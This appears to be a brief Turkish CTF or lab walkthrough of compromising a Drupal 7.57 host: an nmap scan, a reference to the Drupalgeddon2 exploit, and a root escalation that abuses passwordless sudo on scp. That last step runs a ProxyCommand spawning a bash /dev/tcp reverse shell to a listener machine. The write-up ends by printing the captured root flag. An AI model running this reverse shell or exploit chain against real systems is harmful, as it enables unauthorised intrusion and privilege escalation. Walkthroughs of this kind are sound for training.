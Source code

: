 ```
areif@AreIf:~$ nmap -sV 172.16.0.248 
Starting Nmap 7.80 ( https://nmap.org ) at 2025-04-30 11:26 +03
Nmap scan report for 172.16.0.248
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.45 seconds
```

`/CHANGELOG.txt` 
```
Drupal 7.57, 2018-02-21
-----------------------
- Fixed security issues (multiple vulnerabilities). See SA-CORE-2018-001.

Drupal 7.56, 2017-06-21
```
drupal sürümü 7.57

![[Pasted image 20250430224609.png]]

exploit-db
https://www.exploit-db.com/exploits/44449
Drupalgeddon2 açığın ismi 
whoami -> rain
/home/rain/non-privflag.txt

sudo - l 
```
sudo -l
sudo: unable to resolve host Bead-L2: Connection refused
Matching Defaults entries for rain on Bead-L2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rain may run the following commands on Bead-L2:
    (root) NOPASSWD: /usr/bin/scp
```

```
sudo /usr/bin/scp -o "ProxyCommand=bash -c 'bash -i >& /dev/tcp/172.16.16.5/4444 0>&1'" x y:
```

172.16.16.5 makinesinde -> nc -lvnp 4444 

172.16.16.5 makinesine root yetkili terminal gelir. -> cat privflag.txt
92af11594b9feee001f0150ecae6b88d



